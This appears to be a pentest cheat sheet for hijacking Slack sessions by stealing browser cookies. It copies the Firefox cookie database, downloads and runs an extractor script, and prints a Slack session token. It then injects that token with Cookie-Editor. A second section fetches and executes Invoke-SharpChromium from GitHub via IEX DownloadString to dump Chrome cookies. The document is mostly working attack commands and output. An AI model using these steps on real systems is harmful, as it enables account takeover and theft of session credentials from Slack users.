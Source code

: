 
1) Copy Firefox Cookies Database

```
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

2) Extract Slack Cookie from Firefox Cookies Database

wget https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py

```
python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d

(201, '', 'd', 'xoxd-CJRafjAvR3UcF%2FXpCDOu6xEUVa3romzdAPiVoaqDHZW5A9oOpiHF0G749yFOSCedRQHi%2FldpLjiPQoz0OXAwS0%2FyqK5S8bw2Hz%2FlW1AbZQ%2Fz1zCBro6JA1sCdyBv7I3GSe1q5lZvDLBuUHb86C%2Bg067lGIW3e1XEm6J5Z23wmRjSmW9VERfce5KyGw%3D%3D', '.slack.com', '/', 1974391707, 1659379143849000, 1658439420528000, 1, 1, 0, 1, 1, 2)
```

3) Use Firefox and the extension Cookie-Editor

4) Navigate to slack.com

5) Click on the icon for the Cookie-Editor extension, and modify the value of the d cookie with the value you have from the cookieextractor.py script

Click on save

6) Refresh the page

7) Click on Launch Slack and repeat the process of cookie injection

### Cookie Extraction from Chromium-based Browsers

1) PowerShell Script - Invoke-SharpChromium

```
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSh
arpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')

Invoke-SharpChromium -Command "cookies slack.com"

[*] Beginning Google Chrome extraction.

[X] Exception: Could not find file 'C:\Users\lab_admin\AppData\Local\Google\Chrome\User Data\\Default\Cookies'.

   at System.IO.__Error.WinIOError(Int32 errorCode, String maybeFullPath)
   at System.IO.File.InternalCopy(String sourceFileName, String destFileName, Boolean overwrite, Boolean checkout)
   at Utils.FileUtils.CreateTempDuplicateFile(String filePath)
   at SharpChromium.ChromiumCredentialManager.GetCookies()
   at SharpChromium.Program.extract data(String path, String browser)
[*] Finished Google Chrome extraction.

[*] Done.

```
